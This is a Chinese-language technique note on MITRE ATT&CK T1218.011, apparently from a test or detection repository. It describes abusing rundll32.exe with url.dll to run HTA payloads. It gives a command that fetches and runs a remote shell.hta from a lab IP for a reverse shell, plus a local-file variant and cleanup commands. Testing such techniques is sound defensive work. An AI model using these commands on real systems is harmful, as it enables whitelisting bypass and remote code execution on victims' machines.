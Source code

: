 # T1218.011-Win-使用url.dll执行Payload（白名单）

## 描述

攻击者可能利用**rundll32.exe**调用受信任的动态链接库（DLL）如`url.dll`，代理执行恶意代码，规避安全工具的检测（MITRE ATT&CK T1218.011）。`rundll32.exe`是Windows内置工具，用于加载DLL并调用指定函数，常用于正常系统操作，因此常被白名单或误报。`url.dll`是Internet快捷方式壳扩展相关API的系统文件，包含函数如`OpenURL`、`OpenURLA`和`FileProtocolHandler`，可被攻击者利用执行本地或远程的恶意文件（如HTA、SCT脚本），触发恶意行为。

此技术利用`rundll32.exe`和`url.dll`的白名单特性，通过加载恶意脚本或可执行文件实现防御规避、初始访问或持久化。常见场景包括通过`rundll32.exe url.dll,OpenURL <URL>`下载并执行远程HTA文件，可能触发弹窗提示用户确认运行，降低隐蔽性。

## 测试案例

### 测试1：使用rundll32.exe和url.dll执行远程HTA Payload

攻击者通过`rundll32.exe`调用`url.dll`的`OpenURL`函数，下载并执行远程HTA文件，获得反向Shell。

**环境要求**：
- 攻击机：Kali Linux（或其他Metasploit支持的系统）
- 靶机：Windows 7（支持Windows XP及以上）
- 工具：Metasploit（生成Payload）、`rundll32.exe`（系统自带）、`url.dll`（系统自带）
- 权限：普通用户
- 路径：
  - `C:\Windows\System32\url.dll`
  - `C:\Windows\SysWOW64\url.dll`
  - `C:\Windows\System32\rundll32.exe`
  - `C:\Windows\SysWOW64\rundll32.exe`

**攻击命令**（靶机）：
```cmd
rundll32.exe url.dll,OpenURL http://192.168.126.146/shell.hta
```

**说明**：
- `OpenURL`：`url.dll`的导出函数，打开指定URL，可能触发IE或默认浏览器运行HTA文件。
- 用户可能看到弹窗提示确认运行，需手动确认（降低隐蔽性）。

**清理命令**：
```cmd
taskkill /IM mshta.exe /F
taskkill /IM rundll32.exe /F
```

### 测试2：使用rundll32.exe和url.dll执行本地HTA Payload

**攻击命令**（靶机）：
```cmd
rundll32.exe url.dll,FileProtocolHandler file://C:\Temp\shell.hta
```

**说明**：
- `FileProtocolHandler`：`url.dll`的导出函数，处理本地文件协议，运行HTA文件。
- 本地执行无需网络连接，适合已植入Payload的场景。

